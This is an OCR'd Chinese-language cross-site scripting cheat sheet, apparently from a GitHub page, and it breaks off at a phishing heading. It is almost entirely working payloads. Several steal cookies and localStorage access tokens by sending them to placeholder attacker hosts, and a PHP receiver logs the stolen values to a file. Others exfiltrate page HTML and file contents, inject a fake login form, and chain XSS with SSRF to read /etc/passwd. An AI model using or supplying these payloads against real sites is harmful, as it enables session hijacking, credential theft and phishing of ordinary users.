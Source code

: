   #### 确定XSS
  	反射型XSS可使用payload:<script>alert(1)</script>
	存储型不适宜alert(1)
	更好的替代品
	<script>alert(document.domain.concat("\n").concat(window.origin))</script>
	<script>console.log("Test XSS from the search bar of page XYZ\n".concat(document.domain).concat("\n").concat(window.origin))</script>
  #### 打COOKIE
	<svg/onload="javascript:document.location.href=('http://xx.xx.xx.xx:7777?cookie='+document.cookie)">
	<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
	<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
	<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
	<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
	获取的cookie写入文件
```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```
  #### 读取HTML
	<svg/onload="document.location='http://xx.xx.xx.xx:7777/?'+btoa(document.body.innerHTML)">
  #### 读文件
	<svg/onload="
	xmlhttp=new XMLHttpRequest();
	xmlhttp.onreadystatechange=function()
	{
		if (xmlhttp.readyState==4 && xmlhttp.status==200)
		{
			document.location='http://xx.xx.xx.xx:7777/?'+btoa(xmlhttp.responseText);
		}
	}
	xmlhttp.open("GET","file.php",true);
	xmlhttp.send();
	">
  #### 修改HTML
  	<script>
	history.replaceState(null, null, '../../../login');
	document.body.innerHTML = "</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>"
	</script>
  #### XSS+SSRF读取服务器文件
	<svg/onload="
	xmlhttp=new XMLHttpRequest();
	xmlhttp.onreadystatechange=function()
	{
	if (xmlhttp.readyState==4 && xmlhttp.status==200)
	{
	    document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
	}
		}
	xmlhttp.open("POST","request.php",true);
	xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
	xmlhttp.send("url=file:///etc/passwd");
	">
  #### XSS克隆钓鱼